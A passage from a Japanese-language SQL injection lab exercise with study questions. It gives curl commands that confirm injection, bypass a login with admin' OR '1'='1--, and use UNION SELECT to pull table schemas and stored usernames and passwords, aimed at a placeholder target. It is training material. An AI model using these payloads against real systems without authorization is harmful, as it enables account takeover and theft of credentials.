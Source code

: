**質問**: エラーメッセージから何がわかりますか？使用されているデータベースの種類は何ですか？

#### ステップ3: SQLインジェクションの確認
```bash
# 1. 論理演算子を使用したテスト
curl "http://<target-url>/search?q=test' OR '1'='1"

# 2. コメントアウトを使用したテスト
curl "http://<target-url>/search?q=test'-- "
```

**質問**: 結果に変化はありましたか？通常の検索結果と比較してどのような違いがありますか？

### 演習1.2: 攻撃の実行

#### ステップ1: 認証バイパス攻撃
```bash
# 1. 正常なログイン試行
curl -X POST "http://<target-url>/login" \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -d "username=testuser&password=wrongpassword"

# 2. SQLインジェクションによる認証バイパス
curl -X POST "http://<target-url>/login" \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -d "username=admin' OR '1'='1-- &password=anything"
```

**課題**: 攻撃が成功した場合、どのような応答が返されますか？セッションクッキーは設定されましたか？

#### ステップ2: データ抽出攻撃
```bash
# 1. テーブル構造の調査
curl "http://<target-url>/search?q=' UNION SELECT name, sql FROM sqlite_master WHERE type='table'-- "

# 2. ユーザーデータの抽出
curl "http://<target-url>/search?q=' UNION SELECT username, password FROM users-- "

# 3. 全データの抽出
curl "http://<target-url>/search?q=' UNION SELECT * FROM users-- "
```

**課題**: どのような機密情報を取得できましたか？パスワードはどのように保存されていますか？

### 演習1.3: 影響の評価

#### ステップ1: 取得したデータの分析
```bash
# 取得したデータをファイルに保存して分析
curl "http://<target-url>/search?q=' UNION SELECT username, password FROM users-- " > extracted_data.html

# データの整理と分析
grep -o 'username.*password' extracted_data.html
```
